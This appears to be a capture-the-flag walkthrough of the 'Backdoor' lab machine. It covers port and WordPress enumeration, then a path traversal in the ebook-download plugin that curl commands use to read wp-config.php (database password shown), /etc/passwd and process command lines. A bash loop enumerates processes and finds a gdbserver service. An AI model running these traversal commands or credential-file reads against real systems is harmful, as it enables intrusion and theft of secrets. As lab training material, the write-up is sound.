

# Backdoor
## Enumeration
- `nmap`
```
└─$ nmap -p- -Pn 10.10.11.125 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 18:07 BST
Stats: 0:10:47 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 58.08% done; ETC: 18:25 (0:07:47 remaining)
Nmap scan report for 10.10.11.125 (10.10.11.125)
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste

Nmap done: 1 IP address (1 host up) scanned in 1103.92 seconds

└─$ nmap -sV -Pn -p22,80,1337 10.10.11.125 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 18:44 BST
Nmap scan report for 10.10.11.125 (10.10.11.125)
Host is up (0.11s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
1337/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.81 seconds
```
- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.125 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.125
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/20 18:50:39 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://10.10.11.125/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.11.125/]
/wp-login.php         (Status: 200) [Size: 5674]
/.php                 (Status: 403) [Size: 277]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 318] [--> http://10.10.11.125/wp-includes/]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 315] [--> http://10.10.11.125/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
```
- `wpscan`
```
└─$ wpscan --url http://10.10.11.125 -e 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
[+] URL: http://10.10.11.125/ [10.10.11.125]
[+] Started: Sun Aug 20 18:57:14 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.11.125/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.11.125/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.11.125/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.11.125/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8.1 identified (Insecure, released on 2021-09-09).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.11.125/index.php/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>
 |  - http://10.10.11.125/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.11.125/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://10.10.11.125/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.8'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:19 <============================================================================================================================================================> (494 / 494) 100.00% Time: 00:00:19
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:01:41 <==========================================================================================================================================================> (2575 / 2575) 100.00% Time: 00:01:41

[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:02 <===================================================================================================================================================================> (71 / 71) 100.00% Time: 00:00:02

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:03 <========================================================================================================================================================> (100 / 100) 100.00% Time: 00:00:03

[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.11.125/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Aug 20 18:59:33 2023
[+] Requests Done: 3400
[+] Cached Requests: 39
[+] Data Sent: 940.503 KB
[+] Data Received: 556.681 KB
[+] Memory used: 285.543 MB
[+] Elapsed time: 00:02:18

```
- I was stuck for a moment then I saw post in the forum to check `http://10.10.11.125/wp-content/plugins/`

 

 

## Foothold/User
- We can confirm that `ebook` plugin is vulnerable
  - https://www.exploit-db.com/exploits/39575

```
└─$ curl -s http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php                                                                                                   
../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
...
```

- Creds didn't work, let's check `/etc/passwd`

```
└─$ curl -s http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd
../../../../../../etc/passwd../../../../../../etc/passwd../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script>            
```

- Let's check the current process
```
└─$ curl http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o-      
../../../../../../../proc/self/cmdline../../../../../../../proc/self/cmdline../../../../../../../proc/self/cmdline/usr/sbin/apache2-kstart<script>window.close()</script>
```
- We can see the process, let's parse it
```
└─$ curl -s http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
/usr/sbin/apache2 -k start
```
- We can try checking every process
  - `script`
  - Had issues with parsing, but did the work
```bash
#!/bin/bash

for i in {500..5000}; do
        proc="/proc/$i/cmdline"
        skip=$((${#proc})) 
        res=$(curl -s http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../${proc} | tr '\000' ' ' |  cut -c $skip- | rev | cut -c 32- | rev) 
        
        if [[ -n "$res" ]]; then
                echo "$i: $res"
        fi
done;
```

- As a result we have the port we saw in `nmap` results
  - `/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done`
```
857: ../../..//proc/857/cmdline../../../../../../..//proc/857/cmdline/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

- We can follow [Hacktricks's post](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) or use `msfconsole`
  - Got user


## Root
- Enumerate
  - We see `screen` running as `root`


- Let's abuse it
  - https://book.hacktricks.xyz/linux-hardening/privilege-escalation#screen-sessions-hijacking




